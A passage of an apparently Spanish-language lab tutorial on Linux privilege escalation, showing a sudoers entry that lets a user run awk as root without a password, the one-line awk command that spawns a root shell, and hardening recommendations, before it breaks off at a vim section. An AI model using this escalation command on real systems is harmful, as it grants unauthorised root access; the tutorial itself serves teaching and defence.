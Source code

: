 ```bash
Matching Defaults entries for Metahumo on 72723e0a6904:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User Metahumo may run the following commands on 72723e0a6904:
    (root) NOPASSWD: /usr/bin/awk
```

**Explicación:**  
Le damos al usuario `Metahumo` el permiso de ejecutar el binario `/usr/bin/awk` como root, sin contraseña. Aunque awk parece inofensivo, puede ser explotado para obtener una shell privilegiada.

---

## 6. Abusando del permiso sudo con `awk`

**Acción:** 

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

**Resultado:**

```bash
root@<hostname>:/home/Metahumo#
```

**Explicación:**  
Hemos obtenido una shell como root gracias a la ejecución de `awk` permitida por sudo. Esto demuestra cómo incluso comandos aparentemente inocuos pueden representar un riesgo si no se gestionan correctamente.

---

## 7. Conclusión y recomendaciones

- El uso de `NOPASSWD` debe restringirse al mínimo indispensable.
    
- No debemos permitir comandos interpretables como `awk`, `perl`, `python`, `vim`, etc., sin entender sus implicaciones.
    
- Siempre debemos editar el archivo `/etc/sudoers` con el comando `visudo` para evitar errores de sintaxis.
    
- Es recomendable auditar regularmente los permisos otorgados por `sudo`.
    

---

## 8. Abusando de permisos sudo con `vim`

**Acción (como root):**

```bash
nano /etc/sudoers
````
